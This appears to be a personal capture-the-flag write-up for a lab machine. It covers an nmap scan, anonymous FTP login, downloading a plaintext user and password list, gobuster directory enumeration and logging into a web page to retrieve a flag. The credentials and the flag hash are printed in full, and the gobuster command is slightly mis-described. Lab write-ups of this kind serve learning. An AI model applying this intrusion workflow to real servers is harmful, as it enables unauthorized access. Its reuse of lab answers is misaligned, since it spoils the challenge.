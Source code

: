 Nmap scanning:
~~~
nmap 10.129.20.69 -sC -sV
~~~

~~~
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-13 09:47 EDT
Nmap scan report for 10.129.20.69
Host is up (0.31s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.74
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Smash - Bootstrap Business Template
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.04 seconds
~~~

~~~
ftp 10.129.20.69
~~~

Connected to 10.129.20.69.
220 (vsFTPd 3.0.3)
Name (10.129.20.69:subhash):**Anonymous**
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||41218|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.

~~~
ftp> get allowed.userlist
~~~

local: allowed.userlist remote: allowed.userlist
229 Entering Extended Passive Mode (|||46434|)
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
100% |************************************************************************************************************************************************|    33       30.31 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.10 KiB/s)
~~~
ftp> get allowed.userlist.passwd
~~~

local: allowed.userlist.passwd remote: allowed.userlist.passwd
229 Entering Extended Passive Mode (|||44507|)
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
100% |************************************************************************************************************************************************|    62       78.22 KiB/s    00:00 ETA
226 Transfer complete.
62 bytes received in 00:00 (0.19 KiB/s)
~~~
allowedlist :
aron
pwnmeow
egotisticalsw
admin
~~~

~~~
alloweduserlist password:
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd

website in the ipaddress
![[corcodile webpage.png]]

use gobuster to subdomain enumuration

~~~

~~~
gobuster dir -d 10.129.20.69 -w
/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php
~~~

dir for directory
-w for file path
-x for extension
we use php extension because the webpage is bluid with php language

![[VirtualBox_kali_13_06_2023_23_41_25.png]]

after directory enumuration we find the dir login.php

![[VirtualBox_kali_13_06_2023_23_32_23.png]]

we login with the user id password find the ftp 

![[corcodile flag.png]]


flag:c7110277ac44d78b6a9fff2232434d16
finally got the flag!!!!!

reference:
https://patchthenet.com/articles/using-gobuster-to-find-hidden-web-content/
https://github.com/OJ/gobuster
